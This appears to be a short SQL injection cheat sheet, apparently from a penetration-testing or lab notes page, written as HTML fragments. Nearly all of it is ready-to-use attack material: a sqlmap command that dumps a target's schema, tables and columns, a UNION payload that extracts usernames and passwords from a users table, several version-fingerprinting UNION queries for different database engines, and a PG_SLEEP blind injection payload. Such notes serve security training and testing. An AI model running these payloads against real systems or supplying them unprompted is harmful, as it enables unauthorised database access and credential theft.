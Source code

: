 <h1>SQL Injection</h1>

<h2>Reflected SQL Injection:</h2>
<code>sqlmap --url https://$domain/filter?category=Lifestyle --dump --schema --tables --columns</code>

<p>Database: public</p>
<p>Table: users</p>

<h4>POC</h4>
<code>https://$domain/filter?category=Lifestyle'+UNION+SELECT+username,+password+FROM+users--</code>

<h5>Version</h5>
<p>First detect numbers of columns</p>
<p><code>' UNION SELECT NULL,@@version</code></p>
<p><code>' UNION SELECT NULL,NULL,* FROM v$version</code></p>
<p><code>' UNION SELECT banner FROM v$version</code></p>
<p><code>' UNION SELECT version FROM v$instance</code></p>
<p><code>' UNION SELECT version()</code></p>

<h2>Blind SQL Injection:</h2>
<code>';SELECT PG_SLEEP(5)--</code>
